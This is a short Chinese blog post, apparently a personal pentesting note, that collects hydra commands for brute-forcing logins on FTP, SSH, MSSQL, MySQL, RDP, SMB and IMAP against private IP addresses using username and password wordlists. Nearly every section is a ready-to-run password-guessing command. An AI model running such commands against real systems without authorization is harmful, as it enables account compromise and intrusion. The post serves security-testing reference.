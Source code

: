 ```yaml
---
layout: post
title: "hydra常见服务爆破命令"
date: 2019-05-11
description: "Web安全"
tag: Web安全
---
```

---

### 前言

整理一下 hydra 端口爆破命令语法 <br>

---


### 目录：

* <a href="#one" target="_self">简介</a>
* <a href="#a1" target="_self">1. 21端口爆破命令</a>
* <a href="#a2" target="_self">2. 22端口爆破命令</a>
* <a href="#a3" target="_self">3. 1433端口爆破命令</a>
* <a href="#a4" target="_self">4. 3306端口爆破命令</a>
* <a href="#a5" target="_self">5. 3389端口爆破命令</a>
* <a href="#a6" target="_self">6. smb服务爆破命令</a>
* <a href="#a7" target="_self">7. imap服务爆破命令</a>
* <a href="#zg" target="_self">总结</a>

-------


### <span id = "one">简介</span>

hydra 也称九头蛇，<br>

是著名黑客组织thc的一款开源的暴力密码破解工具，可以破解多种密码。 <br>

-----


### <span id = "a1">1. 21端口爆破命令</span>

21端口主要用于FTP(File Transfer Protocol，文件传输协议)服务，<br>

FTP服务主要是为了在两台计算机之间实现文件的上传与下载， <br>

命令： <br>
```bash
hydra -L /root/user.txt -P /root/password.txt ftp://192.168.0.1 -vV 
```

-----

### <span id = "a2">2. 22端口爆破命令</span>

22端口是Linux操作系统 SSH 远程登录协议，<br>

类似于Windows的 3389， <br>

命令： <br>
```bash
hydra ssh://192.168.0.1 -L /root/user.txt -P /root/password.txt --vV
```

-----

### <span id = "a3">3. 1433端口爆破命令</span>

1433端口是SQL Server默认的端口，<br>

SQL Server服务使用两个端口:TCP-1433、UDP-1434。<br>

其中1433用于供SQL Server对外提供服务，1434用于向请求者返回SQL Server使用了哪个TCP/IP端口。，<br>

命令： <br>
```bash
hydra 192.168.0.1 mssql -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a4">4. 3306端口爆破命令</span>

3306 是MySQL的默认端口，<br>

命令： <br>
```bash
hydra 192.168.0.1 mysql -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a5">5. 3389端口爆破命令</span>

3389 是Windows远程桌面的默认端口，<br>

命令： <br>
```bash
hydra 192.168.0.1 rdp -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a6">6. smb服务爆破命令</span>

SMB(Server Message Block) 是一种通信协议，<br>

一般使用端口 139，445 <br>

命令： <br>
```bash
hydra smb://192.168.0.1 -L /root/user.txt -P /root/password.txt -vV
```

-----

### <span id = "a7">7. imap服务爆破命令</span>

IMAP(Internet Mail Access Protocol，Internet邮件访问协议) ，<br>

使用的端口是 143 <br>

命令： <br>
```bash
hydra 10.36.16.18 imap PLAIN -L /root/user.txt -P /root/password.txt 
```

-----

-----


### <span id = "zg">总结</span>

做个笔记吧，<br>

使用少都忘了，<br>

在安全测试中还是用的比较多的。

--------
